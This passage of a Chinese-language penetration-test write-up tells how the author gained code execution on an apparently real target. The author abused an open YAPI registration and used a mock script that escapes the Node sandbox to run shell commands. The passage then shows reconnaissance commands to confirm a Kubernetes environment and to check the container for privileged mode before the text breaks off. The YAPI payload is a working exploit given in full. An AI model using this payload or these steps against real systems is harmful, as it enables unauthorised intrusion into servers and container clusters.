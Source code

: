 ```yaml
---
title: 内网接管 K8s 并逃逸实战
---
```


<center><h1>RCE 进入内网接管 K8s 并逃逸进 xx 网</h1><h2>本文作者：k.so</h2><br><br></center>

---

<div align=center><img width="600" src="/img/1686304043.gif"></div>

苏格拉李说过：三分靠技术，七分靠运气

一次运气不错的内网之行 ～

故事从一个可以注册的 YAPI 说起

<img width="500" src="/img/1686304072.png"><br>

注册完进去在创建一个 mock 脚本

```bash
const sandbox = this
const ObjectConstructor = this.constructor
const FunctionConstructor = ObjectConstructor.constructor
const test = FunctionConstructor('return process')
const process = test()
mockJson = process.mainModule.require("child_process").execSync("ip show & id").toString()
```

<img width="1000" src="/img/1686305318.png"><br>

脚本创建完，在接口处找到这个接口，访问一下，拿到命令执行的回显

<img width="1000" src="/img/1686305358.png"><br>

进来之后，也不敢扫，而且时间也不急，慢工出细活嘛，不着急

发现是个 Docker 环境，想了想之前信息收集的时候目标有可能是用在私有云，于是试了下以下命令

```bash
df -T
```

存在 `/run/secrets/kubernetes.io`，确认是 K8s 环境，忘了截图，我就拿嘴呲吧

既然是 K8s 要么逃逸要么接管，先看看是不是特权模式

```bash
cat /proc/self/status | grep -qi '0000003fffffffff' && echo 'Is privileged mode'|| echo 'Not privileged mode'
```

很可惜，不是

<img width="800" src="/img/1686306055.png"><br>
